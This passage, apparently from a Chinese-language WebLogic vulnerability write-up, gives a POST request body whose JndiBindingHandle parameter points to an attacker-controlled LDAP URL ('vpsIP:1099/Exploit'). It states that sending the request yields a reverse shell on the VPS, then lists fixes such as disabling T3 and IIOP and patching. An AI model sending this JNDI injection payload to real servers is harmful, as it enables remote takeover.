 将数据包请求方式修改为POST并添加如下请求体。

_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://vpsIP:1099/Exploit;AdminServer%22)

![Dingtalk_20220331105432](.\image\Dingtalk_20220331105432.jpg)

发送上述数据包后vps即可成功接收反弹shell。

![Dingtalk_20220331105638](.\image\Dingtalk_20220331105638.jpg)

修复建议：

1、禁用T3协议。

2、禁止启用IIOP协议。

3、临时关闭后台/console/console.portal对外访问。

4、及时安装weblogic修复补丁。

## WebLogic任意文件上传漏洞
